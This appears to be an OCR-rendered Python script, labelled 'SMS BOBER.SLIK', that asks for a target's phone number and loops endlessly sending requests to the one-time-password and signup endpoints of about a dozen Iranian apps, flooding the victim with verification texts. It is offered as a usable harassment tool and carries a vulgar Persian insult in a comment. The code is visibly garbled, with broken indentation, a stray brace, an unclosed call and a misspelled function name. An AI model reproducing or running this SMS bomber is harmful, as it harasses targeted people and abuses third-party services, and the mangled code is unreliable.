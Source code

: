 # SMS.BOBER.SLIK
#کسمادر کسی اسکی بره
import os

import threading

import requests

import time

def print_slow(txt):
	   
	   for x in txt:
	         print(x, end='', flush=True) 
	         time.sleep(0.1)

red='\033[31m'
green='\033[32m'


phone = input(f"{green}[?]your target namber: ") 
f = "0" + phone.split("98")[1]

os.system("clear")

print_slow("loading[Loading…
█▒▒▒▒▒▒▒▒▒]\n"){
	   
os.system("clear")

print_slow("loading[30%
█████▒▒▒▒▒]\n")

os.system("clear")

print_slow("loading[50%
███████▒▒▒]\n")

os.system("clear")
print_slow("loading[100%
██████████]\n")

os.system("clear")

print(f'''


⊂_ヽ
　 ＼＼ Λ＿Λ
　　 ＼( 'ㅅ' )
　　　 >　⌒ヽ
　　　/ 　 へ＼
　　 /　　/　＼＼
　　 ﾚ　ノ　　 ヽ_つ
　　/　/
　 /　/|
　(　(ヽ
　|　|、＼
　| 丿 ＼ ⌒)
　| |　　) /
'ノ )　　Lﾉ
 SMS      BOBER.SLIK
 ''')
 snapj = {"cellphone":phone}
 
 
 digij = {"cellNumber":f,"device":{"deviceId":"a16e6255-17c3-431b-b047-3f66d24c286f","deviceModel":"WEB_BROWSER","deviceAPI":"WEB_BROWSER","osName":"WEB"}}
 

 
  
    snap2j =  {"phone":f}
    
    snap2j = {"phone":f}
    
    tapsi1 = {"credential":{"phoneNumber":f,"role":"PASSENGER"}}

divarj = {"phone":f}
emd = "send=1&cellphone="+f

rubj = {"api_version":"3","method":"sendCode","data":{"phone_number":phone,"send_type":"SMS"}}

bamad = "cellNumber="+f 
ali = {"phoneNumber": f }

hamrah = {"action":"getAppViaSMS","number": f }
 
arkd = {"mobile":f,"country_code":"IR","provider_code":"RUBIKA"} 


while True:
                  
                  requests.post("https://app.mydigipay.com/digipay/api/users/send-sms",json=digij)
                  
                  requests.post("https://api.snapp.ir/api/v1/sms/link",json=snap2j)
                  requests.post("https://api.tapsi.cab/api/v2/user",json=tapsi1)	
                  requests.post("https://api.divar.ir/v5/auth/authenticate",json=divarj)
                  requests.post("https://messengerg2c42.iranlms.ir/",json=rubj
                  
                  requests.post("https://app.snapp.taxi/api/api-passenger-oauth/v2/otp",json=snapj)
                  requests.get("https://api.binjo.ir/api/panel/get_code/"+f)
                  requests.get("https://core.gap.im/v1/user/add.json?mobile="+f)
                  requests.get("https://core.gap.im/v1/user/add.json?mobile="+f)
                  
	requests.post("https://web.emtiyaz.app/json/login",data=emd)
	
	equests.get("https://api.torob.com/a/phone/send-pin/?phone_number="+f)	
	
	requests.post("https://ws.alibaba.ir/api/v3/account/mobile/otp",json=ali)
	
	requests.post("https://hamrahcard.ir/wp-admin/admin-ajax.php",data=hamrah)
                  
    requests.post("https://api.chartex.net/api/v2/user/validate",json=arkd)
